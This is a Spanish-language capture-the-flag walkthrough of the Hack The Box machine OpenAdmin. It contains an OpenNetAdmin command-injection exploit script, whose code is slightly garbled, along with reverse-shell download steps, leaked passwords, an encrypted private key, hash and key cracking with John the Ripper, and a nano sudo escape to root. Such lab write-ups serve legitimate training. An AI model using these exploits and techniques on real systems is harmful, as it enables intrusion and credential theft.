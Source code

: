```yaml
---
title: "HTB – OPENADMIN"
author: "Oscar Bravo"
header: 
  teaser: "/assets/images/post/2021/OpenAdmin.png"
categories:
  - WriteUp
---
```


OS 				 | LINUX
Desarrollado por | dmw0ng
Dificultad 		 | Fácil
Liberación 		 | 4 enero 2020
Puntos 			 | 20

## Enumeración

Al usar nmap utilizando nmap -p- –open -T5 -v -n 10.10.10.171 y luego con el comando nmap -sCV -p22,80 10.10.10.171 (si quieren guardar el nmap usar -oN <NOMBRE ARCHIVO>) , solo encontramos que está abierto el puerto 22 (SSH) y 80 (web).

```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-20 15:01 BST
Nmap scan report for 10.10.10.171
Host is up (0.086s latency).
Not shown: 998 closed ports
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 4b:98:df:85:d1:7e:f0:3d:da:48:cd:bc:92:00:b7:54 (RSA)
| 256 dc:eb:3d:c9:44:d1:18:b1:22:b4:cf:de:bd:6c:7a:54 (ECDSA)
|_ 256 dc:ad:ca:3c:11:31:5b:6f:e6:a4:89:34:7c:9b:e5:50 (ED25519)
80/tcp open http Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint: OS:SCAN(V=7.80%E=4%D=4/20%OT=22%CT=1%CU=38520%PV=Y%DS=2%DC=T%G=Y%TM=5E9DAB7
OS:6%P=x86_64-pc-linux-gnu)SEQ(SP=108%GCD=1%ISR=10C%TI=Z%CI=Z%II=I%TS=A)OPS
OS:(O1=M54DST11NW7%O2=M54DST11NW7%O3=M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST1
OS:1NW7%O6=M54DST11)WIN(W1=7120%W2=7120%W3=7120%W4=7120%W5=7120%W6=7120)ECN
OS:(R=Y%DF=Y%T=40%W=7210%O=M54DNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 5900/tcp)
HOP RTT ADDRESS
1 103.86 ms 10.10.14.1
2 104.25 ms 10.10.10.171

OS and Service detection performed. Please report any incorrect results at Nmap done: 1 IP address (1 host up) scanned in 41.01 seconds
```

Debido a esto se empieza a busca información con whatweb, en el código fuente de la página web, mientras se ejecuta la dirbuster para buscar paginas ocultas y poder acceder a ellas. Simultaneamente hacemos Fuzzing.

- Music
- Ona
- Artwork
- Marga
- Sierra

Al entrar a cada una de las webs vemos que ona es OpenNetAdmin de versión 18.1.1 buscando en las bases de datos de exploit encontramos un CVE de ejecución remota de código, por lo que se busca el exploit y se encuentra en https://www.exploit-db.com/exploits/47691

```
#!/bin/bash

URL="${1}" while true;do echo -n "$ "; read cmd url --silent -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"BEGIN\";${cmd};echo \"END\"&xajaxargs[]=ping" "${URL}" | sed -n -e '/BEGIN/,/END/ p' | tail -n +2 | head -n done
```

## 1° Shell

Al archivo del exploite le damos permiso 744 y lo ejecutamos de la siguiente manera ./archivo.sh http://10.10.10.171/ona/login.php con esto nos abrirá una terminar con opciones reducidas y difícil de navegar dentro de la misma.

En caso de que querer una shell con opciones, simplemente subimos una shell-reverse para ejecutarla desde el navegador. Para ello ejecutamos python -m SimpleHTTPServer en nuestra terminal y desde la maquina victima bajamos el archivo de la shell revers con wget

Navegando con shell podemos ver que existe 2 usuarios jimmy y joanna, y los archivos de configuración de la web OpenNetAdmin, de acuerdo a la documentación de la web, todo archivo de configuración se encuentra en **local/config**, es acá donde se encuentra una password n1nj4W4rri0R! en database_settings.inc.php, normalmente reutilizan las contraseñas por lo que se intentará ingresar con los usuarios encontrados.

## 2° Shell

El password sirve para acceder vía ssh con el usuario jimmy, pero este usuario no posee la flag de user, por lo que se deberá ver cómo escalar los privilegios al segundo usuario joanna.

Investigando el **/var/www** encontramos que hay una página interna llamada internal es por ello que se revisa la configuración de los sitios en el apache **/etc/apache2**. Al investigar las configuraciones de apache se encontró que hay un sitio que se accede localmente al puerto 52846 /etc/apache2/sites-enabled/internal.conf

Revisando el código fuente de la página internal vemos el archivo main.php encontramos lo siguiente:

```
<?php
session_start();
if (!isset ($_SESSION['username'])) { header("Location: /index.php"); };
# Open Admin Trusted
# OpenAdmin
$output = shell_exec('cat /home/joanna/.ssh/id_rsa');
echo "<pre>$output</pre>";
?>
<html>
<h3>Don't forget your "ninja" password</h3>
Click here to logout <a href="logout.php" tite = "Logout">Session
</html>
```

Esto nos dice que nos mostrará el id_rsa del usuario joanna, existe dos formas obtener esta web
### Vía CURL

Para obtener el id_rsa se ejecuta el comando curl http://127.0.0.1:52846/main.php esto mostrar el id_rsa completo.

```
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,2AF25344B8391A25A9B318F3FD767D6D

kG0UYIcGyaxupjQqaS2e1HqbhwRLlNctW2HfJeaKUjWZH4usiD9AtTnIKVUOpZN8
ad/StMWJ+MkQ5MnAMJglQeUbRxcBP6++Hh251jMcg8ygYcx1UMD03ZjaRuwcf0YO
ShNbbx8Euvr2agjbF+ytimDyWhoJXU+UpTD58L+SIsZzal9U8f+Txhgq9K2KQHBE
6xaubNKhDJKs/6YJVEHtYyFbYSbtYt4lsoAyM8w+pTPVa3LRWnGykVR5g79b7lsJ
ZnEPK07fJk8JCdb0wPnLNy9LsyNxXRfV3tX4MRcjOXYZnG2Gv8KEIeIXzNiD5/Du
y8byJ/3I3/EsqHphIHgD3UfvHy9naXc/nLUup7s0+WAZ4AUx/MJnJV2nN8o69JyI
9z7V9E4q/aKCh/xpJmYLj7AmdVd4DlO0ByVdy0SJkRXFaAiSVNQJY8hRHzSS7+k4
piC96HnJU+Z8+1XbvzR93Wd3klRMO7EesIQ5KKNNU8PpT+0lv/dEVEppvIDE/8h/
/U1cPvX9Aci0EUys3naB6pVW8i/IY9B6Dx6W4JnnSUFsyhR63WNusk9QgvkiTikH
40ZNca5xHPij8hvUR2v5jGM/8bvr/7QtJFRCmMkYp7FMUB0sQ1NLhCjTTVAFN/AZ
fnWkJ5u+To0qzuPBWGpZsoZx5AbA4Xi00pqqekeLAli95mKKPecjUgpm+wsx8epb
9FtpP4aNR8LYlpKSDiiYzNiXEMQiJ9MSk9na10B5FFPsjr+yYEfMylPgogDpES80
X1VZ+N7S8ZP+7djB22vQ+/pUQap3PdXEpg3v6S4bfXkYKvFkcocqs8IivdK1+UFg
S33lgrCM4/ZjXYP2bpuE5v6dPq+hZvnmKkzcmT1C7YwK1XEyBan8flvIey/ur/4F
FnonsEl16TZvolSt9RH/19B7wfUHXXCyp9sG8iJGklZvteiJDG45A4eHhz8hxSzh
Th5w5guPynFv610HJ6wcNVz2MyJsmTyi8WuVxZs8wxrH9kEzXYD/GtPmcviGCexa
RTKYbgVn4WkJQYncyC0R1Gv3O8bEigX4SYKqIitMDnixjM6xU0URbnT1+8VdQH7Z
uhJVn1fzdRKZhWWlT+d+oqIiSrvd6nWhttoJrjrAQ7YWGAm2MBdGA/MxlYJ9FNDr
1kxuSODQNGtGnWZPieLvDkwotqZKzdOg7fimGRWiRv6yXo5ps3EJFuSU1fSCv2q2
XGdfc8ObLC7s3KZwkYjG82tjMZU+P5PifJh6N0PqpxUCxDqAfY+RzcTcM/SLhS79
yPzCZH8uWIrjaNaZmDSPC/z+bWWJKuu4Y1GCXCqkWvwuaGmYeEnXDOxGupUchkrM
+4R21WQ+eSaULd2PDzLClmYrplnpmbD7C7/ee6KDTl7JMdV25DM9a16JYOneRtMt
qlNgzj0Na4ZNMyRAHEl1SF8a72umGO2xLWebDoYf5VSSSZYtCNJdwt3lF7I8+adt
z0glMMmjR2L5c2HdlTUt5MgiY8+qkHlsL6M91c4diJoEXVh+8YpblAoogOHHBlQe
K1I1cqiDbVE/bmiERK+G4rqa0t7VQN6t2VWetWrGb+Ahw/iMKhpITWLWApA3k9EN
-----END RSA PRIVATE KEY-----
```
### Vía SSH TUNELING

Al revisar la web internal, nos damos cuenta que en index.php compara el pass con un hash ‘**00e302ccdcf1c60b8ad50ea50cf72b939705f49f40f0dc658801b4680b7d758eebdc2e9f9ba8ba3ef8a8bb9a796d34ba2e856838ee9bdde852b8ec3b3a0523b1**′ en sha512, la cual al desencriptarla obtenemos que la clave es Revealed

Con esto generamos el tunel con el siguiente código desde la maquina atacante **ssh -L1234:127.0.0.1:52846 jimmy@10.10.10.171** esto hace el puerto 1234 de la maquina atacante se vincula con el puerto 52846 permitiendo ver la web

Usamos el usuario jimmy y la clave Revealed obtenidas anteriormente nos devuelve el id_rsa

## 3° SHELL (usuario)

Con el id_rsa se debe desencriptar con John the ripper para ello primero obtenemos el hash del id_rsa con **python /usr/share/john/ssh2john.py id_rsa > id_rsa.hash** luego con ese hash ejecutamos John **john id_rsa.hash –wordlist=/usr/share/wordlists/rockyou.txt** y lo que obtenemos es la contraseña de id_rsa **bloodninjas** e ingresando con **ssh –i id_rsa joanna@10.10.10.171** y obtenemos la primera flag.

## 4° SHELL (root)

Dentro del equipo con el usuario joanna revisamos si tiene algún permiso como root, con el comando sudo -l y vemos que si lo tiene con /bin/nano en el archivo /opt/priv, debido a esto usamos GTFObins para revisar si hay escalada de privilegio con nano. Usando ^R^Xreset; sh 1>&0 2>&0 desde nano podemos escapar de él y obtener un sh de root, obteniendo la ultima flag.

![Racso](https://www.hackthebox.com/badge/image/159593)